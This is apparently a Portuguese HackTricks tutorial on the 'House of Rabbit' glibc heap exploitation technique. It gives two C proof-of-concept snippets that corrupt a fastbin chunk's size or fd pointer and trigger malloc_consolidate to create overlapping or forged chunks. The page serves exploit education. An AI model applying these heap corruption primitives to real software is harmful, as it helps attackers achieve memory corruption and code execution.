 # Casa do Coelho

{% hint style="success" %}
Aprenda e pratique Hacking na AWS: <img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Treinamento HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking no GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Treinamento HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoie o HackTricks</summary>

* Verifique os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

### Requisitos

1. **Capacidade de modificar o ponteiro fd ou o tamanho do fast bin**: Isso significa que você pode alterar o ponteiro forward de um pedaço no fastbin ou seu tamanho.
2. **Capacidade de acionar `malloc_consolidate`**: Isso pode ser feito alocando um grande pedaço ou mesclando o pedaço superior, o que força o heap a consolidar pedaços.

### Objetivos

1. **Criar pedaços sobrepostos**: Para ter um pedaço sobreposto com outro, permitindo manipulações adicionais no heap.
2. **Forjar pedaços falsos**: Para enganar o alocador a tratar um pedaço falso como um pedaço legítimo durante operações no heap.

## Etapas do ataque

### POC 1: Modificar o tamanho de um pedaço fast bin

**Objetivo**: Criar um pedaço sobreposto manipulando o tamanho de um pedaço fastbin.

* **Passo 1: Alocar Pedaços**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```
* **Passo 2: Liberar Chunks**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```
* **Passo 3: Modificar o Tamanho do Chunk**
```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```
* **Passo 4: Acionar `malloc_consolidate`**
```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```
Alocar um grande bloco aciona a função `malloc_consolidate`, mesclando pequenos blocos no fast bin. O tamanho manipulado do `chunk1` faz com que ele se sobreponha ao `chunk2`.

Após a consolidação, o `chunk1` se sobrepõe ao `chunk2`, permitindo uma exploração adicional.

### POC 2: Modificar o ponteiro `fd`

**Objetivo**: Criar um bloco falso manipulando o ponteiro `fd` do fast bin.

* **Passo 1: Alocar Blocos**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```
**Explicação**: Alocamos dois blocos, um menor e um maior, para configurar o heap para o bloco falso.

* **Passo 2: Criar bloco falso**
```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```
* **Passo 3: Liberar `chunk1`**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
```
**Explicação**: Liberamos `chunk1`, adicionando-o à lista fastbin.

* **Passo 4: Modificar `fd` de `chunk1`**
```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```
**Explicação**: Alteramos o ponteiro para frente (`fd`) do `chunk1` para apontar para o nosso chunk falso dentro do `chunk2`.

* **Passo 5: Acionar `malloc_consolidate`**
```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```
Alocar novamente um grande bloco aciona o `malloc_consolidate`, que processa o bloco falso.

O bloco falso passa a fazer parte da lista fastbin, tornando-se um bloco legítimo para futuras explorações.

### Resumo

A técnica **House of Rabbit** envolve modificar o tamanho de um bloco fast bin para criar blocos sobrepostos ou manipular o ponteiro `fd` para criar blocos falsos. Isso permite que os atacantes forjem blocos legítimos no heap, possibilitando várias formas de exploração. Compreender e praticar esses passos irá aprimorar suas habilidades de exploração de heap.
